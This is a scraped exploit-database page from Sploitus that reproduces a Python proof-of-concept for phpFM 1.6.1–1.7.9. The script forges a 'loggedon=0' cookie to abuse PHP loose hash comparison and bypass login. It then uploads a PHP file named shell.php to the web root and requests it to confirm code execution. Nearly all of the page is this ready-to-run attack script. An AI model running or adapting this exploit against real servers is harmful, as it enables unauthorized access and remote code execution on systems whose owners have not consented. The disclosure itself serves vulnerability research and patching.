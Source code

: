 ```yaml
---
title: phpFM 1.7.9 Authentication Bypass / Shell Upload exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173615&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-07-21
fetch_date: 2025-10-04T11:51:14.295656
---
```


# phpFM 1.7.9 Authentication Bypass / Shell Upload exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for phpFM 1.7.9 Authentication Bypass / Shell Upload

2023-07-20 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173615
# Exploit Title: phpfm v1.7.9 - Authentication type juggling
# Date: 2023-07-10
# Exploit Author: thoughtfault
# Vendor Homepage: https://www.dulldusk.com/phpfm/
# Software Link: https://github.com/dulldusk/phpfm/
# Version: 1.6.1-1.7.9
# Tested on: Ubuntu 22.04
# CVE : N/A
"""
An authentication bypass exists in when the hash of the password selected by the user incidently begins with 0e, 00e, and in some PHP versions, 0x. This is because loose type comparision is performed between the password hash and the loggedon value, which by default for an unauthenticated user is 0 and can additionally be controlled by the attacker. This allows an attacker to bypass the login and obtain remote code execution.

A list of vulnerable password hashes can be found here.
https://github.com/spaze/hashes/blob/master/md5.md
"""
import requests
import sys

if len(sys.argv) < 2:
print(f"[*] Syntax: ./{__file__} http://target/")
sys.exit(0)

url = sys.argv[1].rstrip('/') + "/index.php"

payload_name = "shell.php"
payload = '<?php echo "I am a shell"; ?>'
payload_url = url.replace("index.php", payload_name)

headers = {"Accept-Language": "en-US,en;q=0.5", "Cookie": "loggedon=0"}
files = {"dir_dest": (None, "/srv/http/"), "action": (None, "10"), "upfiles[]": ("shell.php", payload) }

requests.post(url, headers=headers, files=files)

r = requests.get(payload_url)
if r.status_code == 200:
print(f"[*] Exploit sucessfull: {payload_url}")
print(r.text)
else:
print(f"[*] Exploit might have failed, payload url returned a non-200 status code of: {r.status_code}" )
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)